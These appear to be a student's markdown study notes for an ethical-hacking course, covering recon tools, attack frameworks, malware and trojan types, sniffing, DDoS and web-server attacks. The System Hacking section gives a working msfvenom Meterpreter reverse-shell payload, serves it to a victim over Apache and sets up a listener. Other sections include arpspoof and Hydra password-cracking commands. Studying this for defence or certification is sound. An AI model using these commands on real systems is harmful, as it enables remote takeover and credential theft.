

# TOOL LIST

## Footpringint and Recon

1. http://mattw.io/ (For scrubbing YT metadata, thumbnail reverse image search etc)
2. Google Hacking 
3. https://www.searchftps.net/ (FTP Indexer)
4. https://www.shodan.io/ (Search engine for IoT devices)
5. https://search.censys.io/ (Identifying target OS, used in conjunction with Shodan)
6. https://sitereport.netcraft.com/ (Website infrastructure search)
7. Sherlock (For social media profiles, but I found it more useful for parsing for usernames)
8. theHarvester 
9. https://www.peekyou.com/ (People search engine. Limited to American states. Capable of identifying addresses, arrests etc)

    
    

# FOOTPRINTING AND RECON

**Note that there should not be a space between the operator and the term** 
    
    Example: site:google.com intitle:test

Refer to https://www.googleguide.com/advanced_operators_reference.html

# ATTACK FRAMEWORKS

## 1. Cyber Kill Chain: 
    Reconnaissance
    Weaponisation
    Delivery
    Exploitation
    Installation
    Command and Control
    Actions on Objectives

## 2. MITRE ATT&CK FRAMEWORK
### PRE-ATT&CK Techniques:
    Recon
    Weaponize
### Enterprise ATT&CK Techniques:
    Deliver
    Exploit
    Control
    Execute
    Maintain

## 3. Diamond Model
### Essential Features
    Adversary
    Capability
    Victim
    Infrastructure

### Meta-Features
    1. Timestamp
    2. Phase
    3. Result
    4. Direction:
        Direction of attack eg. how adversary was routed to victim

    5. Methodology: 
        Technique use dby adversary/overall class of action eg. Phishing, DDoS, drive-by etc
    6. Resource: 
        Tools or tech used for the attack

#### Host-Based Indicators: 
Host-based indicators are found by performing an analysis of the infected system within the organizational network. Examples of host-based indicators include filenames, file hashes, registry keys, DLLs, and mutex

#### Behavioral Indicators: 
Behavioral IoCs are used to identify specific behavior related to malicious activities such as code injection into the memory or running an application's scripts. Well-defined behaviors enable broad protection to block all current and future malicious activities

# MODULE 7: MALWARE

## Techniques used to distribute malware
    Increasingly popular method is Search Engine Optimization (SEO): This is where attackers ensure their page comes out on top of search results

## Trojan Components

**Crypter**: *Software that protects against reverse engineering* 

**Downloader**: *Trojan that download other malware onto host*

**Dropper**: *Trojan that **covertly installs** other malware in system*

**Wrapper**: *Binds Trojan executable with genuine looking EXE*

**Exploit**: *Exploit.**The exploit carries the payload***

**Injector**: *Program that injects exploits or malicious code in malware into other vulnerable running processes and changes method of execution to hide or prevent removal*

**Obfuscator**: *Program that conceals malicious code of malware*

**Packer**: *Software that compresses malware file to convert code and data into unreadable format*

**Payload**: *Payload. The item which actually does the damage. **The exploit carries the payload***

**Malicious Code**: *Fundamental code that defines basic functionality of malware. May take form of Java Applets, ActiveX Controls, Browser Plugins etc*

### Common Trojan Port Numbers

### Trojan Tools

**IExpress Wizard**: It is a wrapper tool that guides the user to create a self-extracting package that can automatically install the embedded setup files, Trojans, etc.

**Emotet**: It is a dropper/downloader for well-known banking Trojans such as Zeus Panda banker, Trickbot, and Iced ID to infect victims globally

**Godzilla**: It is a downloader that can be used for deploying malware on the target machine

**BitCrypter**: Used to employ crypter and can be used to encrypt and compress 32-bit executables and .NET apps without affecting their direct functionality

### Types of Trojans

> **Point-of-Sale Trojans**: It is a type of financial fraudulent malware that target POS and payment equipment such as credit card/debit card readers. Attackers use POS Trojans to compromise such POS equipment and grab sensitive information regarding credit cards, such as credit card number, holder name, and CVV number.

> **Defacement Trojans**: Defacement Trojans, once spread over the system, can destroy or change the entire content of a database. However, they are more dangerous when attackers target websites, as they physically change the underlying HTML format, resulting in the modification of content. In addition, significant losses may be incurred due to the defacement of e-business targets by Trojans.

> **E-banking Trojans**: E-banking Trojans are extremely dangerous and have emerged as a significant threat to online banking. They intercept the victim's account information before the system can encrypt it and send it to the attacker's command-and-control center.

> **HTTP/HTTPS Trojans**: HTTP/HTTPS Trojans can bypass any firewall and work in reverse, as opposed to a straight HTTP tunnel. They use web-based interfaces and port 80. The execution of these Trojans takes place on the internal host and spawns a child program at a predetermined time. 

> **TAN Grabber**: A Transaction Authentication Number (TAN) is a single-use password for authenticating online banking transactions. Banking Trojans intercept valid TANs entered by users and replace them with random numbers. The bank will reject such invalid random numbers. Subsequently, the attacker misuses the intercepted TAN with the target’s login details.

> **Form Grabber**: A form grabber is a type of malware that captures a target’s sensitive data such as IDs and passwords, from a web browser form or page. It is an advanced method for collecting the target’s Internet banking information. It analyses POST requests and responses to the victim's browser. It compromises the scramble pad authentication and intercepts the scramble pad input as the user enters his/her Customer Number and Personal Access Code

> **Covert Credential** Grabber: This type of malware remains dormant until the user performs an online financial transaction. It works covertly to replicate itself on the computer and edits the registry entries each time the computer is started. The Trojan also searches the cookie files that had been stored on the computer while browsing financial websites. Once the user attempts to make an online transaction, the Trojan covertly steals the login credentials and transmits them to the hacker.

> **Backdoor Trojans**: A backdoor is a program which can bypass the standard system authentication or conventional system mechanism like IDS, firewalls, etc. without being detected. In these types of breaches, hackers leverage backdoor programs to access the victim’s computer or a network. The difference between this type of malware and other types of malware is that the installation of the backdoor is performed without the user’s knowledge. This allows the attack to perform any activity on the infected computer which can include transferring, modifying, corrupting files, installing malicious software, rebooting the machine, etc. without user detection

> **Covert Channel Trojans**: Covert Channel Tunneling Tool (CCTT) Trojan presents various exploitation techniques, creating arbitrary data transfer channels in the data streams authorized by a network access control system. It enables attackers to get an external server shell from within the internal network and vice-versa. It sets a TCP/UDP/HTTP CONNECT|POST channel allowing TCP data streams (SSH, SMTP, POP, etc.) between an external server and a box from within the internal network.

## Viruses

### Stages of Virus Lifecycle

### Types of Viruses

    Metamorphic viruses are more effective than polymorphic viruses. 
    
    Polymorphic viruses modify their code for each replication to avoid detection.

    Metamorphic viruses are programmed to rewrite themselves completely each time they reinfect a file.
---

## Fileless Malware

Malware that resides in RAM, and **executes in RAM**. Leaves no trace/detection method. Infects legitimate software and appplications via vulnerabilities.

> Type 1: EG. Receiving malicious packets that exploits vulnerability which automatically installs backdoor.

> Type 2: EG. Injecting malicious PS command into WMI repo to configure filter

> Type 3: Exploiting documents with embedded macro, or EXE files to inject malicious payloads into host

**LemonDuck**: LemonDuck is Python-based fileless malware that spreads infections over Microsoft exchange servers and enterprise-level Linux machines worldwide. It removes other malware from the target system and uses cryptojacking abilities to hide and stay intact even after security patches are applied. Both LemonDuck and LemonCat infect the target machine to subvert security controls, steal cryptocurrency accounts, maintain persistence, and make lateral movements.
## Dialers

Dialers or spyware dialers are programs that get installed and configured in a system automatically to call a set of contacts at several locations without the user’s consent.

## Ransomware

**BackMatter**: BlackMatter is dangerous ransomware written in C. This ransomware uses encryption keys such as RSA public and AES keys for initializing and implementing Salsa20 encryption on the targeted files. Using this malware, attackers can also gain control over domain controllers, ACLs, and other user access controls (UACs).

# Advanced Persistent Threats (APT)

Generally in the system for long periods of time. Plenty of other characteristics; refer to diagram.

## **APT Lifecycle**: Preparation, Initial Intrusion, Expansion, Persistence, Search & Exfiltration, Cleanup

# SYSTEM HACKING
Writing of payloads with MSFVenom. LHOST is host (attacker) machine.
**REMEMBER TO CHANGE PERMISSIONS WITH CHOWN/CHMOD FOR ALL FILES, EVEN APACHE**

    
    msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=[IP Address of Host Machine] LPORT=444 -o /home/attacker/Desktop/Test.exe

Creating of *share* folder of Apache directory.

    /var/www/html/share

Changing of permissions for the share folder.

     chown -R www-data:www-data /var/www/html/share

Copy over the payload into the *share* folder

Starting of Apache Server.

    service apache2 start

Enabling listener via msfconsole, use handler exploit.

     use exploit/multi/handler

Set the correct payload since default payload may not be correct. In this case, it is setting payload to *reverse_tcp*. 

    set payload windows/meterpreter/reverse_tcp

Check and set *options* such as LHOST, LPORT etc. Start exploit after to start listener.

Access LHOST IP/Port in victim machine and download the payload, and execute to connect to listener.

# SNIFFING

Two basic types of Ethernet environments (TARGETS DATALINK LAYER, AND RESULTS IN ALL LAYERS ABOVE BEING COMPROMISED):

1. **Shared Ethernet**

    Single bus that connects all the hosts that competes for bandwidth.
    **A form of passive sniffing, and difficult to detect.**

2. **Switched Ethernet**

    Hosts connect with a switch and has to utilise the ARP table to correlate IP addresses with the MAC addresses. More secure than hub, but also possible to be sniffed. Requires **Active sniffing**.

## Active Sniffing Techniques

The objective of active sniffing is to **inject ARP packets** into the network to flood the switch's Content Addressable Memory (CAM) table. **This table correlates MAC addresses to the Port on the switch.**

**General Sniffing Tools**: Wireshark, OmniPeek 

> Vulnerable Protocols to sniffing (Data sent in plaintext): 
    Telnet & Rlogin
    IMAP
    HTTP
    SMTP & NNTP
    POP
    FTP

### Mac Flooding

- Turning a switch into a hub by flooding the switch's CAM table with ARP responses, until it enters fail-safe mode and acts as a hub.

- Attacker then just has to change their machine's NIC mode to promiscuous to accept all traffic entering it.

### DHCP Attacks

- **Starvation attack** a DOS attack where flooding of router with DHCP requests, until it runs out of IP addresses to assign. 

- **Rogue DHCP Server attack**  Rogue DHCP server to assign attacker-controlled IP addresses.

### DNS Poisoning
**Tools**: DerpNSpoof, Ettercap, Evilgrade

### Switch Port Stealing

- Essentially using MAC flooding to ensure that the attacker spoofs their IP and MAC addresses, and ensures that the switch port is reassigned to the attacker, so all data meant for victim is routed to attacker.

### ARP Poisoning
**Tools**: arpspoof, habu, Ettercap, BetterCAP, dsniff, MITMf, Arpoison
    
    arpspoof -i [Interface] -t [Target Host]

**Defending against it**:
1. Implementation of Dynamic ARP Inspection (DAI). Firstly need to enalbe DHCP snooping for Cisco switches.

        ip dhcp snooping

### Spoofing Attack

Spoofing include ARP spoofing, MAC spoofing, ICMP Router Discovery Protocol (IRDP) spoofing, VLAN hopping, Spanning Tree Procol (STP) attacks.
    

## DDoS Categories

### Volumetric Attacks
> UDP Flood, ICMP, Ping of Death, Smurf

> Bits/s

### Protocol Attacks
> SYN flood, fragmentation attack

> Packets/s

### Application Layer Attacks
> Requests/s

# WEB SERVER ATTACK

## TOOLS
1. Skipfish

Skipfish is an active web application security reconnaissance tool. It prepares an interactive sitemap for the targeted site by carrying out a recursive crawl and dictionary-based probes. The resulting map is then annotated with the output from a number of active (but hopefully non-disruptive) security checks. The final report generated by the tool is meant to serve as a foundation for professional web application security assessments.

    skipfish -o [output folder path] -S /usr/share/skipfish/dictionaries/complete.wl [Target address]

Open index.html in the output folder in Firefox.

2. Ghosteye

Python3 program for web server recon.

    python3 ghosteye.py

3. Hydra

Password cracker

    hydra -L [username wordlist] -P [password wordlist] [host. eg. ftp://10.10.1.11]

